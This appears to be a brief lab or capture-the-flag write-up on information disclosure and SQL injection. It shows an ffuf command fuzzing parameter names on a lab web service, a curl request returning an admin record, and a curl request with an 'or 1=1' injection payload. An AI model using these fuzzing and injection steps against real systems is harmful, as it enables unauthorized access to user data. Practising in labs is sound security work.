


# Information Disclosure (with a twist of SQLi)

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u  http://10.129.202.133:3003/?FUZZ=test -fs 19
```

```bash
curl http://10.129.202.133:3003/?id=1
```

```json
 {  
   "id": "1",  
   "username": "admin",  
   "position": "1"  
 }
```



```bash
curl http://10.129.202.133:3003/?id=1+or+1=1
```


